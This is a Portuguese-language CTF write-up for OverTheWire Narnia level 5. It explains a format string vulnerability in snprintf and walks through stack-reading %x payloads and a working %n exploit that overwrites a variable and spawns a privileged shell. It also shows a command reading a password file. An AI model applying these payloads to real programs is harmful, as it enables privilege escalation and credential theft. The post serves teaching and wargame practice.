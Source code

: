 ```yaml
---
layout: default
title: Level 5 - Format String Attack [OverTheWire CTF – Narnia] write-up
date: 2017-05-31 17:14
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">Level 0</a></li>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/">Level 1</a></li>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">Level 2</a></li>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2017/01/07/level-3-overthewire-ctf-narnia-write-up/">Level 3</a></li>
    <li style="text-align:justify;"><a href="https://brenn0.wordpress.com/2017/01/15/level-4-overthewire-ctf-narnia-write-up/">Level 4</a></li>
</ul>

Quem diria que é mais trabalhoso escrever writeup do que resolver os desafios? Mas continuo firme e forte na tentativa de documentar e ensinar um pouco que sei para os próximos 1337 afim de aprender.

Hora de ownar o <strong>narnia5</strong>.

<script src="https://gist.github.com/anonymous/f6fb1753c42a085a65b9cc1f21948bdf.js"></script>

O objetivo é claro, mudar o valor da variável <strong>i</strong> de 1 para 500. Hora de ver o código e criar teorias de como fazer isso.

<script src="https://gist.github.com/anonymous/d743b46c946ffe171ea2a2ca5aa04f6f.js"></script>

No inicio da função, <strong>i</strong> recebe o valor 1 e <strong>buffer</strong> é declarado como um vetor de char de tamanho 64. Depois, <a href="http://www.cplusplus.com/reference/cstdio/snprintf/">snprintf</a> manda para buffer 64 caracteres do argumento que passamos para o programa. É aqui que mora a vulnerabilidade que vai permitir mudar o valor de i.

snprintf recebe como argumentos: um ponteiro para o buffer onde será guardado o valor, o tamanho máximo de bytes que será copiado para o buffer e uma string (também podem haver argumentos opcionais). Se a função for chamada desta forma: <em>snprintf(buffer, 100, "Sou uma %s", "string")</em>, irá salvar em buffer o valor <em>"Sou uma string"</em> porque substitui o <em>%s</em> pelo argumento seguinte, a palavra <em>"string"</em>. É tipo o que <a href="http://www.cplusplus.com/reference/cstdio/printf/">printf</a> faria, mas ao invés de imprimir na tela, salva o resultado em algum lugar.

Assim como os outros da família printf, snprintf quando usada de forma relapsa abre espaço para ataques de <a href="https://www.owasp.org/index.php/Format_string_attack">format string</a>.

Uma<em> format string </em>é uma string ASCII que pode conter texto e parâmetros de formatação.

```printf(Sua senha do facebook é %s, x41Ax41A)```

A tal <em>format string</em> seriam os argumentos para a função printf aí de cima. Você pode ver que, ao executar esta linha, a função espera uma string como argumento para substituir o identificador %s.

Há outros identificadores como %d para inteiros, %c para caracteres, %x para hexademical, %p para ponteiros, %n que te digo a utilidade depois...

No chall, a função está sendo chamada passando como argumento de formatação o que digitarmos:

```snprintf(buffer, sizeof buffer, argv[1])```

Ao invés do correto, que seria:

```snprintf(buffer, sizeof buffer, %s, argv[1])```

No primeiro caso, temos controle da string de formatação. Isto significa que inserir como argumento um "%s" fará com que snprintf tente imprimir uma string. Mesmo que essa string não exista.

```
narnia5@narnia:/narnia$ ./narnia5 %s
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒u^▒L9L$▒Av9▒D▒] (23)
i = 1 (0xffffd74c)
```

Consegue ver essa quantidade de lixo? Isso acontece porque, em uma chamada saudável para snprintf, por exemplo: <em>snprintf(buffer, 25, "%d %s", a, &amp;b)</em>  os dados ficariam organizados dessa forma:

```
(topo da stack)
Endereço_de_retorno -
endereço_de_b -
valor_de_a
...
(fundo da stack)
```

É na stack que snprintf espera que os valores ou endereço destes valores estejam. Assim, não importa se esses valores tenham ou não sido passados como argumento para a função, snprintf irá ler o que estiver na stack.

Há uma forma de ver esse mal comportamento na prática usando o chall. Ao passar argumentos suficientes, é possível ler o próprio argumento da stack.

```
narnia5@narnia:/narnia$ ./narnia5 AAAA.%x.%x.%x.%x.%x
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [AAAA.f7eb7fe6.ffffffff.ffffd71e.f7e2ec34.41414141] (49)
i = 1 (0xffffd73c)
```

Usei %x para imprimir os valores em hex e você pode ver que o quinto %x foi substituído pelo valor <em><a href="https://pt.wikipedia.org/wiki/ASCII">41414141</a></em>.

Bom, ler conteúdo arbitrário da memória têm suas <a href="https://security.stackexchange.com/questions/43489/can-i-read-write-canary-values-from-gs-register/43844#43844">utilidades</a>. Mas o objetivo é ganhar uma shell. E para isso acontecer, não é preciso ler e sim sobrescrever i.

É aí que entra o especificador %n. Ao contrário de todos outros, sua utilidade não é formatar para apresentar um valor e sim escrever.

O %n escreve, na variável que for especificada, o número de bytes que foram escritos antes dele.

```printf(12345%n, &amp;variavel)```

A linha de código acima, além de imprimir "<em>12345</em>", irá escrever o inteiro 5 em <em>variavel</em>.

O programa é amigável e ainda nos informa em que lugar da memória está guardado o valor da variável i. Tudo que é preciso é: explorar a format string para escrever 500 bytes e escrever %n no endereço de i.

Agora saindo da teoria para a prática.

Lembra como, após alguns endereços, se consegue imprimir o próprio valor inserido? É dessa forma que passamos o endereço de i.

```
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%x%x%x%x%n &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp;'`
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒▒▒f7eb7746ffffffffffffd6bef7e2fc34] (36)
i = 36 (0xffffd6dc)
```

Uow, viu isso? Vamos por partes:

No começo do argumento venenoso que mandei (usei o python para escrever no formato que se deve mas, se simplesmente não entendeu o que fiz, tente ler os <a href="https://brenn0.wordpress.com/category/ctfs/over-the-wire/narnia/">write-ups anteriores do narnia</a> que é onde explico mais cuidadosamente esses paranauê) temos <em>ff ff d6 dc</em>, o endereço de i.

Após o endereço, usei uns %x para sair puxando uns valores da stack até chegar no início do meu próprio argumento, que será <em>ff ff d6 dc</em>. E é ai que entra o %n, que vai alegremente escrever a quantidade de bytes já escritos em <em>ff ff d6 dc</em>.

Por esse motivo que i teve seu valor substituído por 36. Não é por coincidência que o tamanho de buffer também seja 36.

Agora se pode passar um argumento com 500 bytes e ver /bin/sh ser executado com privilégios de narnia6.

```
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%-472s%x%x%x%n'`
Change i's value from 1 -500. GOOD
$ cat /etc/narnia_pass/narnia5
cat: /etc/narnia_pass/narnia5: Permission denied
$ whoami
narnia6
```

Nem precisa escrever na mão os 500. O <a href="https://stackoverflow.com/questions/276827/string-padding-in-c">%472s</a> faz o trabalho de preencher o buffer.

Esse desafio só arranha bem pouco a superfície que é o poder que se tem ao explorar uma falha em format strings. Ao contrário de stack overflows simples (sem nenhuma contramedida), que são raríssimos de se ver na prática hoje em dia, format strings ainda são exploradas atualmente. Mesmo que na maioria das vezes seja apenas como um "meio" para o exploit funcionar. O que quis dizer é que: se você for buscar conhecimento, vai encontrar altas maneiras extravagantes e quase mágicas de se usar uma falha desse tipo para vários fins. Cheque <a href="https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf">este PDF </a>se ficou curioso.
